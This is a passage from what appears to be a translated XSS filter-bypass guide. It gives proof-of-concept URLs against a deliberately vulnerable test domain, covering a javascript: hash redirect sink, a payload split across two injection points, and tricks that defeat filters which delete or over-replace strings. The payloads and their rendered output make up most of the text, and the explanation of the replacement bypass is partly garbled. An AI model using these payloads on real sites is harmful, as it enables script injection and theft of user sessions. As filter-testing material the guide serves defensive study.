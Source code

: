[https://vulnerabledoma.in/bypass/dom_redirect#javascript:alert(1)](https://vulnerabledoma.in/bypass/dom_redirect%23javascript:alert(1))

```html
<script>
location.href=decodeURIComponent(location.hash.slice(1));
</script>
```

### XSS with 2 or more injection points on one page

[https://vulnerabledoma.in/bypass/text?type=2&q=%22src=data:,alert%25281%2529%3E%3C/script%3E%3Cscript%20x=%22](https://vulnerabledoma.in/bypass/text?type%3D2%26q%3D%2522src%3Ddata:,alert%2525281%252529%253E%253C/script%253E%253Cscript%2520x%3D%2522)

```html
<div>"src=data:,alert%281%29></script><script x="</div>
<div>"src=data:,alert%281%29></script><script x="</div>

```

### If you have string operations

When some strings are removed or replaced, intervening strings do not block.

#### When deleted

[https://vulnerabledoma.in/bypass/text?type=6&q=%3Csvg%20o%3Cscript%3Enload=alert(1)%3E](https://vulnerabledoma.in/bypass/text?type%3D6%26q%3D%253Csvg%2520o%253Cscript%253Enload%3Dalert(1)%253E)

```html
<svg o<script>nload=alert(1)>
↓
<svg onload=alert(1)>
```

#### When replaced

`.`It will not be possible to block if the position expressed by the regular expression of the filter is replaced by more than the [determined width .](https://speakerdeck.com/masatokinugawa/shibuya-dot-xss-techtalk-number-9?slide%3D50)

We take advantage of the over-substitution behavior `<sc{r}ipt.*?>`to avoid matching the blocking condition that if is a wildcard of 0-3 characters, and is a wildcard of 0-5 characters, so the maximum width that can be cut off is 8 characters. The string length of the output after substitution is 10 characters, which exceeds the width of 8 characters and cannot be cut off.`&``/``&``/&amp;amp;`

PoCs:

[https://vulnerabledoma.in/bypass/text?type=10&q=%3Cscript/%26%3Ealert(1)%3C/script%3E](https://vulnerabledoma.in/bypass/text?type%3D10%26q%3D%253Cscript/%2526%253Ealert(1)%253C/script%253E)

```html
<script/&>alert(1)</script>
↓
<script/&amp;amp;>alert(1)</script>
```
